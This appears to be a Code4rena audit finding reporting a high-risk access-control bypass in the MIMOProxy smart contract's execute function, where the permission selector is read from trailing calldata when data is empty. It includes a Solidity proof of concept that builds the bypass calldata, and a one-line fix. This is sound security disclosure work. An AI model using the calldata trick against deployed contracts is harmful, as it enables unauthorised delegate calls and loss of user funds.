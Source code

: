 ## Tags

- bug
- question
- 3 (High Risk)
- sponsor confirmed

# [Incorrect implementation of access control in MIMOProxy:execute](https://github.com/code-423n4/2022-08-mimo-findings/issues/159) 

# Lines of code

https://github.com/code-423n4/2022-08-mimo/blob/main/contracts/proxy/MIMOProxy.sol#L54
https://github.com/code-423n4/2022-08-mimo/blob/main/contracts/proxy/MIMOProxy.sol#L104


# Vulnerability details

## Description

There is a function `execute` in `MIMOProxy` smart contract. The function performs a delegate call to the user-specified address with the specified data. As an access control, the function checks that either it was called by the owner or the owner has previously approved that the sender can call a specified target with specified calldata. See https://github.com/code-423n4/2022-08-mimo/blob/main/contracts/proxy/MIMOProxy.sol#L104. 

The check itself: 

```
    if (owner != msg.sender) {
      bytes4 selector;
      assembly {
        selector := calldataload(data.offset)
      }
      if (!_permissions[msg.sender][target][selector]) {
        revert CustomErrors.EXECUTION_NOT_AUTHORIZED(owner, msg.sender, target, selector);
      }
    }
```

The problem is how the `selector` is calculated. Specifically, `calldataload(data.offset)` - reads first 4 bytes of `data`.  Imagine `data.length == 0`, does it mean that `calldataload(data.offset)` will return `bytes4(0)`? No.

Let's see how calldata are accepted by functions in Solidity. The solidity function checks that the calldata length is less than needed, but does NOT check that there is no redundant data in calldata. That means, the function `execute(address target, bytes calldata data)` will definitely accept data that have `target` and `data`, but also in calldata can be other user-provided bytes. As a result,  `calldataload(data.offset)` can read trash, but not the `data` bytes.

And in the case of `execute` function, an attacker can affect the execution by providing `trash` data at the end of the function. Namely, if the attacker has permission to call the function with some `signature`, the attacker can call proxy contract bypass check for signature and make delegate call directly with zero calldata.

Please see proof-of-concept (PoC), `getAttackerCalldata` returns a calldata with which it is possible to bypass check permission for signature. Function `execute` from PoC simulate check for permission to call `signatureWithPermision`, and enforce that `data.length == 0`. With calldata from `getAttackerCalldata` it works.

## Impact

Any account that have permission to call at least one function (signature) to the contract can call fallback function without without permission to do so.

## Proof of Concept

```
// SPDX-License-Identifier: MIT OR Apache-2.0

pragma solidity ^0.8.0;

interface IMIMOProxy {
  event Execute(address indexed target, bytes data, bytes response);

  event TransferOwnership(address indexed oldOwner, address indexed newOwner);

  function initialize() external;

  function getPermission(
    address envoy,
    address target,
    bytes4 selector
  ) external view returns (bool);

  function owner() external view returns (address);

  function minGasReserve() external view returns (uint256);

  function execute(address target, bytes calldata data) external payable returns (bytes memory response);

  function setPermission(
    address envoy,
    address target,
    bytes4 selector,
    bool permission
  ) external;

  function transferOwnership(address newOwner) external;

  function multicall(address[] calldata targets, bytes[] calldata data) external returns (bytes[] memory);
}

contract PoC {
    bytes4 public signatureWithPermision = bytes4(0xffffffff);

    // Call this function with calldata that can be prepared in `getAttackerCalldata`
    function execute(address target, bytes calldata data) external {
        bytes4 selector;
        assembly {
            selector := calldataload(data.offset)
        }

        require(selector == signatureWithPermision);

        require(data.length == 0);
    }

    // Function that prepare attacker calldata
    function getAttackerCalldata() public view returns(bytes memory)  {
        bytes memory usualCalldata = abi.encodeWithSelector(IMIMOProxy.execute.selector, msg.sender, new bytes(0));
        return abi.encodePacked(usualCalldata, bytes32(signatureWithPermision));
    }
}
```

## Recommended Mitigation Steps

Add `require(data.length >= 4);`